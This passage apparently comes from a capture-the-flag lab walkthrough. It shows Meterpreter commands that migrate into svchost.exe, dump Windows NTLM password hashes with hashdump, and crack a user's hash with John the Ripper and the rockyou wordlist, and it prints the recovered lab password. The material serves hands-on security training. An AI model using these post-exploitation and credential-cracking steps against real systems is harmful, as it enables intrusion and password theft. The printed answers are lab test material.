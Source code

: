 ### #3.7

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

Let's migrate to PID 2912 (`svchost.exe`):

~~~
meterpreter > migrate 2912
[*] Migrating from 2484 to 2912...
[*] Migration completed successfully.
~~~

## [Task 4] Cracking 19/03/2019

### Description

Dump the non-default user's password and crack it!

### T4.1

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

~~~
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
~~~

Answer: `Jon`

### T4.2    

Copy this password hash to a file and research how to crack it. What is the cracked password?

Hint: This password can be found within the `rockyou.txt` wordlist.

~~~
$ ./john --format=NT --wordlist=rockyou.txt hashdump.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:00 DONE (2020-05-01 09:08) 3.278g/s 16721Kp/s 16721Kc/s 16729KC/s alr1979..alpus
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
~~~
